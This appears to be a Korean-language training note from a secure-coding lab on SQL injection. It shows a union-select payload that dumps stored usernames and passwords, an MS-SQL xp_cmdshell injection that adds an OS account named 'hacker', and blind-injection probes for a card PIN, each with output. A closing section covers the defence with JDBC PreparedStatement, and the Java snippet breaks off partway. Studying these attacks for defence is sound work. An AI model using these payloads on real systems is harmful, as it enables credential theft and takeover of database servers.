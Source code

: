 ~~~
MySQL 조회결과:    IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
IDX: IDX,USERID,USERPW,USERNAME,PINNO,JOINDATE      ID: 2      PASSWORD: 3      이름: 4
~~~



#### 칼럼 데이터 추출

admin' union select idx,userid,userpw,username,5,6 from board_member#

~~~
MySQL 조회결과:    IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
IDX: 2      ID: test      PASSWORD: test      이름: 테스트
IDX: 3      ID: a      PASSWORD: a      이름: 홍길동
IDX: 4      ID: ab      PASSWORD: ab      이름: 이기훈
~~~

### Stored Procedure SQL 삽입 체크

MS-SQL의 경우 공격자는 보안상 취약한 프로시저를 이용해 쉘 수행, 쿼리 결과 HTML로 제공, 레지스트리 조작, 서비스 시작/중지, 시스템 정보 획득 등을 수행할 수 있다.

admin'; exec xp_cmdshell 'net user hacker hacker /add'--

~~~
Administrator            ASPNET                   Guest
hacker                   IUSR_WIN2003             IWAM_WIN2003
jes                      SUPPORT_388945a0
~~~



### Blind SQL 삽입 체크

쿼리 결과의 참/거짓 형태를 가지고 DB 정보를 판단하는 방법으로 DB 정보를 추출

101 and (select pin from pins where cc_number='1111222233334444' <3000) 

101 and (select pin from pins where cc_number='1111222233334444')=2364



Pangolin이라는 툴을 사용할 수도 있음.



### ★ 방어 : SQL을 고정시킴!

#### JDBC API의 PreparedStatement 이용

~~~java
	public String readDB(String id, String passwd) {
		StringBuffer  result=new StringBuffer();
		Connection con=null;
		PreparedStatement st=null;
		ResultSet rs=null;
		try {
			con = EConnection.getConnection(this);	
			st = con.prepareStatement("select * from board_member where userid=? and userpw=?");
			st.setString(1, id);
			st.setString(2, passwd);
			rs = st.executeQuery();
   		    if ( rs.next() ) {
			       result.append("ID: "+rs.getString(2));
			       result.append("    PASSWORD: "+rs.getString(3));
			}
		} catch (SQLException e1) {
			// TODO Auto-generated catch block
			result.append("요청처리에러발생");
		}
~~~
